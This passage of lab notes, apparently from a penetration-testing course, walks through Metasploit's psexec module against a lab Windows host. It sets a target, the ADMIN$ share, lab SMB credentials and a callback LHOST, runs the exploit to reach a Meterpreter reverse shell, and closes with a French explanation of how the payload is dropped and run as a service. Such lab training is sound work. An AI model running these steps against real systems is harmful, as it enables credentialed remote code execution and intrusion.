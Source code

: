 We will want to use the `set` command to configure the following settings as such:

<mark style="color:orange;">**Setting Options**</mark>

```shell-session

msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.180.71
RHOSTS => 10.129.180.71
msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.14.222
LHOST => 10.10.14.222
```

<mark style="color:green;">**These settings will ensure that our payload is delivered to the proper target (**</mark><mark style="color:green;">**`RHOSTS`**</mark><mark style="color:green;">**), uploaded to the default administrative share (**</mark><mark style="color:green;">**`ADMIN$`**</mark><mark style="color:green;">**) utilizing credentials (**</mark><mark style="color:green;">**`SMBPass`**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**&**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**`SMBUser`**</mark><mark style="color:green;">**), then initiate a reverse shell connection with our local host machine (**</mark><mark style="color:green;">**`LHOST`**</mark><mark style="color:green;">**).**</mark>

<mark style="color:orange;">**Exploits Away**</mark>

```shell-session

msf6 exploit(windows/smb/psexec) > exploit

meterpreter > 
```

In this case, as detailed in the [Rapid 7 Module Documentation](https://www.rapid7.com/db/modules/exploit/windows/smb/psexec/): "This module uses a valid administrator username and password (or password hash) to execute an arbitrary payload. This module is similar to the "psexec" utility provided by SysInternals. This module is now able to clean up after itself. The service created by this tool uses a randomly chosen name and description. "

{% hint style="warning" %}
#### Introduction à PsExec et au module Metasploit correspondant

Le module **PsExec** de Metasploit est utilisé pour exécuter à distance des commandes ou des payloads (programmes malveillants, shells, etc.) sur une machine **Windows** cible. Ce module fonctionne en exploitant les services **SMB** (Server Message Block) sur Windows, généralement via le port **445**, et il nécessite un accès **administrateur** à la machine cible pour fonctionner.

Le module PsExec permet de :

* **Déposer un fichier** malveillant sur la machine cible via un partage réseau.
* **Créer un service** sur cette machine à partir de ce fichier.
* **Exécuter ce service**, ce qui permet d'exécuter le payload (comme un shell Meterpreter).
